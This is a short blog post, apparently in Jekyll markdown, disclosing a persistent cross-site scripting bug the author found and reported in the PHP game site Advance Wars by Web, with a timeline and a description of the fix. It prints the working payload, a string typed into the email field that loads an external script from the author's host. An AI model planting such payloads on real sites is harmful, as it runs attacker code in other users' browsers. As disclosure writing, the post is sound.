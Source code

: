 ```yaml
---
layout: post
title: AWBW Persistent XSS &mdash; Sami is my Hero
---
```


# AWBW Persistent XSS &mdash; Sami is my Hero

This post's a short one, I just feel like recording a small vulnerability I
found and reported. I mostly like my Proof of Concept, and frankly that's the
real reason I'm writing this.

In fact, skip reading the post, just check out the [Proof of Concept](https://web.archive.org/web/20201201044101/https://awbw.amarriner.com/profile.php?username=testxs).

## Background

#### AWBW

Advance Wars by Web (aka [AWBW](https://awbw.amarriner.com/)) is a web-based turn-based strategy game based on nintendo's Advance Wars game. You can read more about that [here](https://awbw.amarriner.com/guide.php).

You can tell, just by clicking around on it, that it's a big pile of php. The "guide.php" in that url is also a pretty big hint.

I don't play, but when a friend linked it to me, I saw ".php", which makes my brain immediately want to start typing SQL injection and XSS payloads into the nearest text input.

#### XSS

If you don't know what XSS is, [Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting) has you covered.

Perhaps the most famous XSS in existence is the [Samy Worm](https://en.wikipedia.org/wiki/Samy_%28computer_worm%29), which spread to over a million MySpace users.

## The Persistent XSS

So, let's start with the proof of concept I created and sent to the AWBW team:

[https://awbw.amarriner.com/profile.php?username=testxs](https://web.archive.org/web/20201201044101/https://awbw.amarriner.com/profile.php?username=testxs)

(web.archive.org link, since it has been fixed)

So, what was the exploit? Entering `></td></tr><script src="https://s.ek.gs/s.js"><` into the email field.

And also checking the "display email" tickbox.

### Timeline and Fix

The timeline is a bit fuzzy because I was not informed when they fixed it. I believe it's roughly the following though:

- 2020-12-01 &mdash; I find the persistent XSS above, and write the PoC shown above.
- 2020-12-01 &mdash; I email the AWBW admins with the PoC and a clear description of the bug.
- 2021-04-20 &mdash; I notice it's fixed. I did not ever receive an email response. There is no changelog entry.

How did they fix it?

They made it so the "display email" checkbox no longer displays your email anywhere, as far as I can tell. You can still enter a persistent XSS onto your own settings page via the email input, but you can't get anyone else to view it.

They did also blank out the email field for my test account.

## Conclusion

Typing into text fields is fun, but most of all Samy is my hero.

